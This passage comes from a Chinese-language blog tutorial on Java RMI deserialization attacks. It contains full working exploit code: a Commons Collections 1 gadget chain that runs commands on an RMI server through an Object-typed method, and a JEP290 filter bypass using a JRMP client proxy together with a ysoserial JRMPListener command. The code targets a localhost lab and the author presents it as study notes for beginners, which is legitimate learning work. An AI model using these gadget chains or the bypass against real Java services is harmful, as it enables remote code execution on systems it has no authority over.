                    new ConstantTransformer(1) };
            Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
            Field iTransformers = transformer.getDeclaredField("iTransformers");
            iTransformers.setAccessible(true);
            iTransformers.set(transformerChain, transformers);
            final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
            final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
            ctor.setAccessible(true);
            InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
            Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
            invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        }catch (Exception ignored){
            throw new RemoteException("生成poc代码失败");
        }
        return invocationHandler;
    }
}
```



当客户端调用服务端绑定的远程对象的getUser方法时，将反序列化服务端传来的恶意远程对象。此时将触发RCE

## 攻击服务端

### 基于Object参数反序列化攻击

如果服务端的某个方法，传递的参数是Object类型的参数，当服务端接收数据时，就会调用readObject，所以我们可以从这个角度入手来攻击服务端。

我们在User接口中加一个addUser方法，是接收Object类型参数的

```java
package rmi_injection_labs1.service;
import java.rmi.RemoteException;
public interface User extends java.rmi.Remote {
    public Object getUser() throws RemoteException;
    public void addUser(Object user) throws RemoteException;
}
```

在接口有方法的参数为Object类型的情况下，新增以下客户端代码

```java
package rmi_injection_labs1.client;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import rmi_injection_labs1.service.User;
import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;
public class LocalUserClientAttack2ServerByCC1 {
    public static void main(String[] args) throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        // ================addUser(Object obj) Object在服务端会被反序列化所以会触发对应的CC1攻击链
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        User user = (User) registry.lookup("user");
        user.addUser(invocationHandler);
    }
}
```

攻击效果如下



## JEP290介绍

`JEP290`机制是用来过滤传入的序列化数据，以提高安全性，在反序列化的过程中，新增了一个`filterCheck`方法，所以，任何反序列化操作都会经过这个`filterCheck`方法，利用`checkInput`方法来对序列化数据进行检测，如果有任何不合格的检测，`Filter`将返回`REJECTED`。但是`jep290`的`filter`需要手动设置，通过`setObjectInputFilter`来设置`filter`，如果没有设置，还是不会有白名单。

```java
private static Status registryFilter(FilterInfo var0) {
    if (registryFilter != null) {
        Status var1 = registryFilter.checkInput(var0);
        if (var1 != Status.UNDECIDED) {
            return var1;
        }
    }

    if (var0.depth() > (long)REGISTRY_MAX_DEPTH) {
        return Status.REJECTED;
    } else {
        Class var2 = var0.serialClass();
        if (var2 == null) {
            return Status.UNDECIDED;
        } else {
            if (var2.isArray()) {
                if (var0.arrayLength() >= 0L && var0.arrayLength() > (long)REGISTRY_MAX_ARRAY_SIZE) {
                    return Status.REJECTED;
                }

                do {
                    var2 = var2.getComponentType();
                } while(var2.isArray());
            }

            if (var2.isPrimitive()) {
                return Status.ALLOWED;
            } else {
                return String.class != var2 && !Number.class.isAssignableFrom(var2) && !Remote.class.isAssignableFrom(var2) && !Proxy.class.isAssignableFrom(var2) && !UnicastRef.class.isAssignableFrom(var2) && !RMIClientSocketFactory.class.isAssignableFrom(var2) && !RMIServerSocketFactory.class.isAssignableFrom(var2) && !ActivationID.class.isAssignableFrom(var2) && !UID.class.isAssignableFrom(var2) ? Status.REJECTED : Status.ALLOWED;
            }
        }
    }
}
```

设置的白名单如下

```java
String.class
Remote.class
Proxy.class
UnicastRef.class
RMIClientSocketFactory.class
RMIServerSocketFactory.class
ActivationID.class
UID.class
```

JEP290本身是JDK9的产物，但是Oracle官方做了向下移植的处理，把JEP290的机制移植到了以下三个版本以及其修复后的版本中：

- Java™ SE Development Kit 8, Update 121 (JDK 8u121)
- Java™ SE Development Kit 7, Update 131 (JDK 7u131)
- Java™ SE Development Kit 6, Update 141 (JDK 6u141)

以8u121作为测试，同时修改server中的反序列化过滤

```java
package rmi_injection_labs1.server;

import rmi_injection_labs1.service.LocalUser;
import rmi_injection_labs1.service.User;
import sun.misc.ObjectInputFilter;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.concurrent.CountDownLatch;

public class LocalUserServer {
    public static void main(String[] args) throws Exception {
        // 设置白名单过滤规则
        ObjectInputFilter.Config.setSerialFilter(info -> {
            if (info.serialClass() == null) {
                return ObjectInputFilter.Status.UNDECIDED; // 未指定类的反序列化，继续检查
            }
            // 获取反序列化的类
            String className = info.serialClass().getName();
            // 白名单：允许以下类
            if (className.equals("java.lang.String") ||
                    className.equals("java.rmi.Remote") ||
                    className.equals("java.lang.reflect.Proxy") ||
                    className.equals("sun.rmi.server.UnicastRef") ||
                    className.equals("java.rmi.server.RMIClientSocketFactory") ||
                    className.equals("java.rmi.server.RMIServerSocketFactory") ||
                    className.equals("java.rmi.activation.ActivationID") ||
                    className.equals("java.rmi.server.UID")) {
                return ObjectInputFilter.Status.ALLOWED;
            }
            // 拒绝所有其他类
            return ObjectInputFilter.Status.REJECTED;
        });
        User liming = new LocalUser("liming",15);
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("user",liming);
        System.out.println("registry is running...");
        System.out.println("liming is bind in registry");
        CountDownLatch latch=new CountDownLatch(1);
        latch.await();
    }
}
```

因为反序列化被白名单过滤掉了，所以客户端收到了一些错误....



###  bypass JEP290

Bypass的思路应该是从上面白名单的类或者他们的子类中寻找复写readObject利用点。

我们通过getRegistry时获得的注册中心，其实就是一个封装了UnicastServerRef对象的对象:



当我们调用bind方法后，会通过UnicastRef对象中存储的信息与注册中心进行通信:



这里会通过ref与注册中心通信，并将绑定的对象名称以及要绑定的远程对象发过去，注册中心在后续会对应进行反序列化

接着来看看yso中的JRMPClient：

```java
ObjID id = new ObjID(new Random().nextInt()); // RMI registry
TCPEndpoint te = new TCPEndpoint(host, port);
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] {
Registry.class
}, obj);
return proxy;
```

这里返回了一个代理对象，上面用的这些类都在白名单里，当注册中心反序列化时，会调用到RemoteObjectInvacationHandler父类RemoteObject的readObject方法（因为RemoteObjectInvacationHandler没有readObject方法），在readObject里的最后一行会调用ref.readExternal方法，并将ObjectInputStream传进去：

```
ref.readExternal(in);
```

UnicastRef#readExternal

```java
public void readExternal(ObjectInput var1) throws IOException, ClassNotFoundException {
    this.ref = LiveRef.read(var1, false);
}
```

LiveRef#read



这里在上边会把LiveRef对象还原，LiveRef对象中存了我们序列化进去的ip和端口，之后会调用DGCClient#registerRefs



var2这里转回来的是一个DGCClient.EndpointEntry对象，里边同样封装了我们的端口信息，接着会调用var2.registerRefs(var1)，然后在registerRefs中会调到DGCClient#makeDirtyCall，并把var2、var3传进去，var2里封装了我们的endpoint信息，var3中则是关于协议交互的SequenceNum。

```java
public boolean registerRefs(List<LiveRef> var1) {
    assert !Thread.holdsLock(this);
    HashSet var2 = null;
    long var3;
    synchronized(this) {
        if (this.removed) {
            return false;
        }
        LiveRef var7;
        RefEntry var8;
        for(Iterator var6 = var1.iterator(); var6.hasNext(); var8.addInstanceToRefSet(var7)) {
            var7 = (LiveRef)var6.next();
            assert var7.getEndpoint().equals(this.endpoint)
            var8 = (RefEntry)this.refTable.get(var7);
            if (var8 == null) {
                LiveRef var9 = (LiveRef)var7.clone();
                var8 = new RefEntry(var9);
                this.refTable.put(var9, var8);
                if (var2 == null) {
                    var2 = new HashSet(5);
                }
                var2.add(var8);
            }
        }
        if (var2 == null) {
            return true;
        }
        var2.addAll(this.invalidRefs);
        this.invalidRefs.clear();
        var3 = DGCClient.getNextSequenceNum();
    }
    this.makeDirtyCall(var2, var3);
    return true;
}
```

这里会进到dirty方法中，var4是我们传进去的ObjID对象，var1是一个HashSet对象，里边存了我们的Endpoint信息

```java
private void makeDirtyCall(Set<RefEntry> var1, long var2) {
    assert !Thread.holdsLock(this);

    ObjID[] var4;
    if (var1 != null) {
        var4 = createObjIDArray(var1);
    } else {
        var4 = DGCClient.emptyObjIDArray;
    }

    long var5 = System.currentTimeMillis();

    long var8;
    long var12;
    try {
        Lease var7 = this.dgc.dirty(var4, var2, new Lease(DGCClient.vmid, DGCClient.leaseValue));
        var8 = var7.getValue();
        long var10 = DGCClient.computeRenewTime(var5, var8);
        var12 = var5 + var8;
        synchronized(this) {
            this.dirtyFailures = 0;
            this.setRenewTime(var10);
            this.expirationTime = var12;
        }
    } catch (Exception var19) {
        var8 = System.currentTimeMillis();
        synchronized(this) {
            ++this.dirtyFailures;
            if (this.dirtyFailures == 1) {
                this.dirtyFailureStartTime = var5;
                this.dirtyFailureDuration = var8 - var5;
                this.setRenewTime(var8);
            } else {
                int var11 = this.dirtyFailures - 2;
                if (var11 == 0) {
                    this.dirtyFailureDuration = Math.max(this.dirtyFailureDuration + (var8 - var5) >> 1, 1000L);
                }

                var12 = var8 + (this.dirtyFailureDuration << var11);
                if (var12 >= this.expirationTime && this.dirtyFailures >= 5 && var12 >= this.dirtyFailureStartTime + DGCClient.leaseValue) {
                    this.setRenewTime(Long.MAX_VALUE);
                } else {
                    this.setRenewTime(var12);
                }
            }

            if (var1 != null) {
                this.invalidRefs.addAll(var1);
                Iterator var20 = var1.iterator();

                while(var20.hasNext()) {
                    RefEntry var21 = (RefEntry)var20.next();
                    var21.markDirtyFailed();
                }
            }

            if (this.renewTime >= this.expirationTime) {
                this.invalidRefs.addAll(this.refTable.values());
            }
        }
    }

}
```

这里wirteObject后，会用invoke将数据发出去，接下来从socket连接中先读取了输入，然后直接反序列化，此时的反序列化并没有设置filter，所以这里可以直接导致注册中心rce，所以我们可以伪造一个socket连接并把我们恶意序列化的对象发过去



**使用ysoserial构造恶意服务端**

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections5 "calc"
```

**服务端代码**

```java
package rmi_injection_labs1.server;

import rmi_injection_labs1.service.LocalUser;
import rmi_injection_labs1.service.User;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class LocalUserServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(2222);
        User user = new LocalUser("Erosion", 25);
        registry.rebind("HelloRegistry", user);
        System.out.println("rmi start at 2222");
    }
}
```

**客户端代码**

```java
package rmi_injection_labs1.client;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.reflect.Proxy;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class JEP290AttackClientByYsoSerial {
    public static void main(String[] args) throws Exception {
        Registry reg = LocateRegistry.getRegistry("127.0.0.1",2222);
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 3333);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Registry proxy = (Registry) Proxy.newProxyInstance(Client.class.getClassLoader(), new Class[] {
                Registry.class
        }, obj);
        reg.bind("Hello",proxy);
    }
}
```

复现效果如下：



## 总结

我是看了好多师傅的分析文章才对RMI有了一定的了解，这篇博客就是记录一下对应的内容，然后尽量把攻击复现写的详细一些，这样的话比较适合小白入手，有些师傅可能默认读者有这个基础，所以很多时候代码就一笔带过了，hhhhhh~

强烈推荐：[T师傅的先知社区博客](https://xz.aliyun.com/t/8706)